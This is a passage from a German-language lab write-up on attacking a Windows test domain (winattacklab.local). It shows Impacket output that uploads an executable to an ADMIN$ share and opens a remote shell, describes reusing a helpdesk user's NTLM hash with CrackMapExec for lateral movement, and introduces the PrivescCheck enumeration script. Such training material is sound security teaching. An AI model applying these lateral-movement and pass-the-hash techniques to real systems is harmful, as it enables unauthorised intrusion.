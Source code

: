 \begin{lstlisting}[language=PowerShell]
    Impacket v0.9.22.dev1+20200819.170651.b5fa089b
    [*] Requesting shares on 10.0.1.101.....
    [*] Found writable share ADMIN$
    [*] Uploading file LZzQLrwi.exe
    [*] Opening SVCManager on 10.0.1.101.....
    [*] Creating service HIbO on 10.0.1.101.....
    [*] Starting service HIbO.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.17763.1397]
\end{lstlisting}

\subsubsection{CrackMapExec}
Mit dem NTLM-Hash des Helpdesk-Benutzers können wir nun mit einem Tool namens CrackMapExec leicht überprüfen, ob dasselbe lokale Benutzerkonto (mit demselben Passwort) auf anderen Systemen existiert.

\subsection{Step 6: Situational Awareness on FS1}
Wir haben nun Zugriff auf den Host FS1.winattacklab.local mit administrativen Rechten erhalten. Das bedeutet, dass wir nicht mehr nach lokalen Methoden zur Privilegienerweiterung suchen müssen. Stattdessen ist das Ziel, andere wertvolle Informationen zu finden, die uns helfen könnten, andere Benutzer oder Hosts zu kompromittieren.

\subsubsection{Acquiring the Necessary Tools}

\paragraph{PrivescCheck}\mbox{} \\
Dieses Skript zielt darauf ab, häufige Windows-Konfigurationsprobleme aufzuzählen, die zur lokalen Privilegienerweiterung ausgenutzt werden können. Außerdem sammelt es verschiedene Informationen, die für eine Ausnutzung und/oder Nachnutzung nützlich sein könnten.
Dieses Tool soll Sicherheitsberatern dabei helfen, potenzielle Schwachstellen auf Windows-Rechnern während Penetrationstests und Workstation/VDI-Audits zu identifizieren. Es ist nicht für den Einsatz bei Red-Team-Einsätzen gedacht, kann aber dennoch viele nützliche Informationen liefern.

